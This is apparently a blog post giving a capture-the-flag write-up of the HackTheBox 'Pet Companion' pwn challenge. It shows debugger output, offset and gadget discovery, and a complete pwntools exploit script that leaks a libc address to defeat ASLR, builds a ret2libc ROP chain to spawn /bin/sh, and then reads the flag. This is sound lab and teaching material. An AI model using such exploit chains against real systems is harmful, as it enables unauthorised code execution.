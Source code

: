 ```yaml
---
layout: post
title: "pwn petcompanion"
date: 2024-03-14 17:18:49 -0700
categories: ctfs
description: The "Pet Companion" challenge in the pwn category involves exploiting a buffer overflow vulnerability using the cyclic tool in Pwntools. By leveraging a return-oriented programming (ROP) chain, participants overwrite the destination function to call a target function, such as `system` to execute commands. With ASLR enabled, leaking an address return back to the main pointer is necessary before executing the payload.
parent: HackTheBox - Apocalypse '24
grand_parent: CTF Events
event: "hackthebox-apocalypse"
tags:
- "pwn"
- "buffer overflow"
- "exploitation"
- "ROP chain"
- "ASLR bypass"
- "system call"
---
```


## Pet Companion - Pwn Challenge
The "Pet Companion" challenge requires participants to exploit a buffer overflow vulnerability to execute arbitrary commands, such as calling the Bash endpoint. Leveraging the cyclic tool in Pwntools, participants identify the vulnerability and construct a ROP chain to manipulate the program's execution flow.

### Exploiting the Buffer Overflow:
Using the cyclic tool, participants identify the buffer overflow vulnerability and craft a payload to overwrite the destination function. By carefully constructing the payload, participants ensure that the overwritten function points to a target function, such as `system`, allowing for command execution.

#### Cyclic Generation
```sh
<SNIP>
*RSP  0x7fffffffdbc8 ◂— 0x616161616161616a ('jaaaaaaa')
*RIP  0x4006df (main+149) ◂— ret 
───────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────
 ► 0x4006df <main+149>    ret    <0x616161616161616a>
<SNIP>
pwndbg> cyclic -l jaaaaaaa
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```

We now know, anything we put 72 characters in can define the next function to be called. 

Looking through Ghidra, I don't see any interesting non-called functions, which hints that I need to use a native function; and doing a `info function` in pwndbg shows me a massive availability of imported resources to use. Among them, my `execve` and `system` functions. These will allow me to make direct system calls. However, given that the binary is loaded with `Full RELRO`, the addresses are ReadOnly and I cannot edit the contents of them directly.

```sh
checksec --file=pet_companion              
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   RW-RUNPATH   65 Symbols        No    0               1               pet_companion
```

To see what interesting things I can pass into these functions, then, I'll need to extract the hex locations of interesting strings in these libraries. LibC has a known contents of `/bin/sh` lurking for certain types of calls, so let's start here.

```sh
[11:12:20] tokugero :: pangolin  ➜  pwn/petcompanion/challenge » strings -a -t x glibc/libc.so.6| grep "bin"
<SNIP>
 1b3d88 /bin/sh
<SNIP>
```

Finally, we need the offset values of our `system` and `execve` functions, as well as a function with which to write to the screen and to leak our base addresses to do the math required to know where all this data will be after the program starts.

Write offset, if we don't want to use the ELF pwntools function:
![alt text](../../../assets/images/ctf/events/hackthebox-apocalypse-24/2024-03-14-pwn-petcompanion.md/2024-03-14-pwn-petcompanion/image.png)

And finally, to craft our functions we'll need the rop gadgets necessary to populate our registers with the correct values to call our functions.

```sh
ropper -f target/pet_companion | grep -e rsi -e rdi -e ": ret;"
<SNIP>
0x0000000000400743: pop rdi; ret; 
0x0000000000400741: pop rsi; pop r15; ret; 
<CHEATING IN OUTPUT>
0x00000000004004de: ret; 
```


### Dealing with ASLR:
With ASLR enabled, directly calling the `system` function is not feasible. Participants must first leak an address return back to the main pointer to bypass ASLR. By executing the payload to pop a shell through the binary, participants gain control over the program's execution flow and achieve their objective.

```sh
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> info func system
All functions matching regular expression "system":

Non-debugging symbols:
0x00007ffff784f420  __libc_system
0x00007ffff784f420  system
0x00007ffff7959c50  svcerr_systemerr
pwndbg> info func execve
All functions matching regular expression "execve":

Non-debugging symbols:
0x00007ffff78e4ae0  execve
0x00007ffff78e4b10  fexecve

pwndbg> info proc map
process 540065
Mapped address spaces:

          Start Addr           End Addr       Size     Offset  Perms  objfile
            0x400000           0x401000     0x1000        0x0  r-xp   /path/pet_companion
            0x600000           0x601000     0x1000        0x0  r--p   /path/pet_companion
            0x601000           0x602000     0x1000     0x1000  rw-p   /path/pet_companion
      0x7ffff7800000  #<-- BASE ADDRESS   0x1e7000        0x0  r-xp   /path/glibc/libc.so.6 
      0x7ffff79e7000     0x7ffff7be7000   0x200000   0x1e7000  ---p   /path/glibc/libc.so.6
      0x7ffff7be7000     0x7ffff7beb000     0x4000   0x1e7000  r--p   /path/glibc/libc.so.6
      0x7ffff7beb000     0x7ffff7bed000     0x2000   0x1eb000  rw-p   /path/glibc/libc.so.6
      0x7ffff7bed000     0x7ffff7bf1000     0x4000        0x0  rw-p   
      0x7ffff7c00000     0x7ffff7c29000    0x29000        0x0  r-xp   /path/glibc/ld-linux-x86-64.so.2
      0x7ffff7e29000     0x7ffff7e2a000     0x1000    0x29000  r--p   /path/glibc/ld-linux-x86-64.so.2
      0x7ffff7e2a000     0x7ffff7e2b000     0x1000    0x2a000  rw-p   /path/glibc/ld-linux-x86-64.so.2
      0x7ffff7e2b000     0x7ffff7e2c000     0x1000        0x0  rw-p   
      0x7ffff7ff7000     0x7ffff7ff9000     0x2000        0x0  rw-p   
      0x7ffff7ff9000     0x7ffff7ffd000     0x4000        0x0  r--p   [vvar]
      0x7ffff7ffd000     0x7ffff7fff000     0x2000        0x0  r-xp   [vdso]
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0  rw-p   [stack]

pwndbg> p/x (0x00007ffff784f420-0x7ffff7800000)
$2 = 0x4f420 #< Example to pull out offset for system call taht we'll need later
```

#### The Final Payload:
```python
io = start()

# magic numbers needed for both payloads
overflow_offset = 72
main_ptr = 0x40064a

# Identified function addresses from ropper gadget finder
ret_ptr = 0x4004de
pop_rdi = 0x400743
pop_rsi_r15 = 0x400741

payload1 = b'A' * overflow_offset
payload1 += p64(ret_ptr)
payload1 += p64(pop_rsi_r15)
payload1 += p64(elf.got['write']) # Accessable from the dynamic loaded library  (libc)
payload1 += b'B' * 8
payload1 += p64(elf.symbols['write']) # Accessable from the static library (elf)
payload1 += p64(main_ptr)

io.sendline(payload1)
io.recvuntil(b'Configuring...\n\n')

# System offsets identified on local system with ghidra and gdb
system_offset = 0x4f420
execve_offset = 0xe4ae0
bash_offset = 0x1b3d88 # from strings -a -t x glibc/libc.so.6| grep "bin" 
exit_offset = 0x43110
write_offset = 0x1100f0 # LIBC write

# Leak a useful base address
leakraw = io.recvline()
leak = u64(leakraw.split()[0].strip().ljust(8, b'\x00'))
log.info(f'Leaked write: {hex(leak)}')
# Calculate the base address from the leaked address and subtracting the known offset value
libc_start_ptr = leak - write_offset
log.info(f'Leaked base address: {hex(libc_start_ptr)}')

# Calculate actual pointers to these functions
execve_ptr = libc_start_ptr + execve_offset
system_ptr = libc_start_ptr + system_offset
bash_ptr = libc_start_ptr + bash_offset
exit_ptr = libc_start_ptr + exit_offset

payload2 = b'C' * overflow_offset # Overflow to first instruction override
payload2 += p64(pop_rdi) # Set parameter 1 for the function
payload2 += p64(bash_ptr) # Location of /bin/sh string in downloaded libc
payload2 += p64(ret_ptr) # Corrects stack alignment after string injection
payload2 += p64(system_ptr) # Call system function with the /bin/sh arg
payload2 += p64(exit_ptr) # Stay classy, san diego. You'll never reach this.

io.sendline(payload2)

io.interactive()
```

```python
python pwntools.py 
[+] Starting local process './pet_companion': pid 541115
[*] Leaked write: 0x7ffff79100f0
[*] Leaked base address: 0x7ffff7800000
[*] Switching to interactive mode
[!] Set your pet companion's current status: 
[*] Configuring...

$ ls
bits             pet_companion_1.gpr   pet_companion_3.lock~
flag.txt         pet_companion_1.rep   pet_companion_3.rep
glibc             pet_companion_2.gpr   pet_companion.gpr
pet_companion         pet_companion_2.rep   pet_companion.rep
pet_companion_0.gpr  pet_companion_3.gpr   pwntools.py
pet_companion_0.rep  pet_companion_3.lock
$ cat flag.txt
HTB{f4k3_fl4g_4_t35t1ng}
```

### Conclusion:
The "Pet Companion" challenge showcases the intricacies of exploiting buffer overflow vulnerabilities and bypassing ASLR protection. By crafting a ROP chain and understanding the program's memory layout, participants can successfully execute arbitrary commands and solve the challenge. This experience highlights the importance of understanding memory manipulation techniques in pwn challenges.
